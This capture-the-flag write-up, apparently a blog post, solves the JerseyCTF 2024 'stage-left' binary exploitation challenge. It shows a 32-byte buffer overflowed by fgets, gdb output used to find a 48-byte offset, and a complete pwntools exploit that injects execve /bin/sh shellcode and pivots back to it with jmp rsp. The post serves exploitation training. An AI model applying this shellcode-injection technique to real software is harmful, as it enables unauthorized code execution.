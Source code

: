 +++
title = 'JerseyCTF 2024 - pwn/stage-left'
date = 2024-03-24T18:52:00-04:00
draft = false
+++

This challenge is very similar to the last challenge Running on Prayers, except instead of an unbounded gets into a buffer, we read in 0x40 bytes using fgets. Because space is limited, we have to inject our shellcode in stages, as the name suggets.

```c
undefined8 vuln(void)

{
  char local_28 [32];
  
  printf("Cramped...");
  fgets(local_28,0x40,stdin);
  return 0;
}
```

Again we can use jmp rsp, but this time we will use somthing like
`sub rsp, 0x20
jmp rsp` 
after rsp. 0x20 is just a placeholder, but it represents the offset between rsp and the start of the buffer. We will load our shellcode at the start of the buffer, and then calculte the offset between the start of the buffer and rsp. Using this, we jump back to the start of the buffer and execute our shellcode. I used the placeholder value, and using gdb, set a breakpoint on ret, and continued to when `jmp rsp` is called. The difference between the start of our buffer (which I filled with 'AAAA' for debugging) and rsp will be the offset we need.

```sh
     0x401232 <gift+10>        in     al, dx
     0x401233 <gift+11>        adc    BYTE PTR [rsi-0x39], ah
     0x401236 <gift+14>        rex.RB (bad)
 →   0x401238 <gift+16>        jmp    rsp
     0x40123a <gift+18>        lea    rax, [rip+0xdd7]        # 0x402018
     0x401241 <gift+25>        mov    rdi, rax
     0x401244 <gift+28>        mov    eax, 0x0
     0x401249 <gift+33>        call   0x401060 <printf@plt>
     0x40124e <gift+38>        mov    eax, 0xffffffff
```

```sh
gef➤  search-pattern("AAAA")
[+] Searching '(AAAA)' in memory
[+] In '[stack]'(0x7fff3aca9000-0x7fff3acca000), permission=rwx
  0x7fff3acc7370 - 0x7fff3acc7376  →   "(AAAA)[...]" 
  0x7fff3acc7374 - 0x7fff3acc737a  →   "(AAAA)[...]" 
  0x7fff3acc7378 - 0x7fff3acc737e  →   "(AAAA)[...]" 
  0x7fff3acc737c - 0x7fff3acc7382  →   "(AAAA)[...]" 
  0x7fff3acc7380 - 0x7fff3acc7386  →   "(AAAA)[...]" 
  0x7fff3acc7384 - 0x7fff3acc738a  →   "(AAAA)[...]" 
  0x7fff3acc7388 - 0x7fff3acc738e  →   "(AAAA)[...]" 
  0x7fff3acc738c - 0x7fff3acc7392  →   "(AAAA)[...]" 
  0x7fff3acc7390 - 0x7fff3acc7396  →   "(AAAA)[...]" 
  0x7fff3acc7394 - 0x7fff3acc739a  →   "(AAAA)[...]" 
```

```sh
i r rsp
rsp            0x7fff3acc73a0      0x7fff3acc73a0

```


```sh
>>> 0x7fff3acc73a0 - 0x7fff3acc7370
48
```

So 48 is the offset we need to pivot back to our shellcode. I think the shellcode generated by pwntools shellcraft would have been too long, so i found a shorter 27 byte shellcode on `https://shell-storm.org/shellcode/index.html`. Now putting it all together:


```python
from pwn import *

elf = context.binary = ELF("./StageLeft")

target = process("./StageLeft")

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload += b"\x00" * 13

payload += p64(jmp_rsp)
payload += asm('''
	sub rsp, 48;
	jmp rsp;
''')

target.sendlineafter("...", payload)
target.interactive()

```